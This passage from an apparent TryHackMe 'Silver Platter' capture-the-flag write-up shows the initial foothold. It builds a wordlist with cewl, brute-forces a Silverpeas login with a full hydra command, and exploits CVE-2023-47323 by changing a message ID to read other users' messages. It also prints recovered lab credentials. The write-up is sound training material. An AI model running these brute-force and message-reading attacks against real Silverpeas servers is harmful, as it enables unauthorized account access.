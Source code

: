 ## Initial Foothold

We cannot use the `rockyou.txt` list since the room description tells us that these passwords are excluded. So we will attempt to make a password list with `cewl`.

```
cewl http://silverplatter.thm > passwords.txt
```

![password list](/images/THM-SilverPlatter/pwds_list.png)

We can use hydra for the brute force attack using a login request to get the post-form name.

![login request](/images/THM-SilverPlatter/login_request.png)

```
hydra -l scr1ptkiddy -P pwds.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect"
```

![brute force attack with Hydra](/images/THM-SilverPlatter/hydra_creds.png)

Using these credentials we are able to login.

![silverpeas dashboard](/images/THM-SilverPlatter/silverpeas_dashboard.png)

Click on `1 unread notification` to read the message. 

![inbox message](/images/THM-SilverPlatter/message_url.png)

[This article](https://rhinosecuritylabs.com/research/silverpeas-file-read-cves/) from Rhino Security Labs details vulnerabilities about Silverpeas. 

Ater reading through the CVEs carefully we see that [CVE-2023-47323](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323) can be exploited to read all messages by just changing the `ID` value.

![Read messages vulnerability](/images/THM-SilverPlatter/read_message_cve.png)

Changing the value to `6`, we recover the credentials for the user `tim`.

![tim credentials](/images/THM-SilverPlatter/tim_creds.png)

```
Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

We login via SSH and recover the user flag.

![user flag](/images/THM-SilverPlatter/user_flag.png)

### Shell as Tyler

